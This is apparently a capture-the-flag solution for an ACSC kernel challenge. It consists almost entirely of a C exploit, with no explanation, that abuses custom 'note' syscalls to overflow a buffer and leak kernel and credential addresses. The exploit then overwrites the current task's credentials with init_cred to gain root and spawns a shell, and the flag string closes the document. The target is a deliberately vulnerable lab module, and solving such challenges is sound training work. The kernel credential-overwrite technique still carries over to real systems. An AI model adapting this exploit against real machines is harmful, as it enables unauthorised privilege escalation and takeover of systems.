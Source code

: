 ```c

#define ADD_NOTE     548
#define DEL_NOTE     549
#define SHOW_NOTE    550
#define COPY_NOTE    551
#define CURRENT_ADDR 552

uint64_t buf[256] = {0};
uint64_t copy[256] = {0};

void make_copy(int offset){
    memset(buf, 'A', (128 + offset)*8);

    syscall(ADD_NOTE, buf);
    syscall(SHOW_NOTE, buf);

    copy[128 + offset] = buf[128 + offset];
}

int main(int argc, char* argv[]){
    uint64_t current_addr = syscall(CURRENT_ADDR);

    printf("current task: %p\n", current_addr);

    make_copy(1);

    uint64_t current_cred = copy[128 + 1];
    uint64_t note = current_addr + 0xab8 - 8*2 - 1024;
    copy[128 + 1] = 0;

    buf[128]     = current_addr + 0xb10 - 4;
    buf[128 + 1] = current_addr + 0xb10 - 4;
    buf[128 + 2] = current_addr + 0xb10 - 4;

    syscall(ADD_NOTE, buf);

    uint32_t lower = getuid();
    uint32_t upper = 0xffffffff;

    uint32_t tmp[2] = {lower, upper}; // it works this way ¯\_(ツ)_/¯
    uint64_t leak = *(long *)tmp;

    buf[128]     = current_cred;
    buf[128 + 1] = current_cred;
    buf[128 + 2] = current_cred;

    syscall(ADD_NOTE, buf);

    printf("%p\n", leak);

    uint64_t kbase = leak - 0x144e8a0;
    uint64_t init_cred = kbase + 0x144eac0;

    buf[128]     = init_cred;
    buf[128 + 1] = init_cred;
    buf[128 + 2] = init_cred;

    syscall(ADD_NOTE, buf);

    system("whoami; sh");
}
```
Flag: `ACSC{m0mmy, 1 r34lly h4t3 7hi5 n0te}`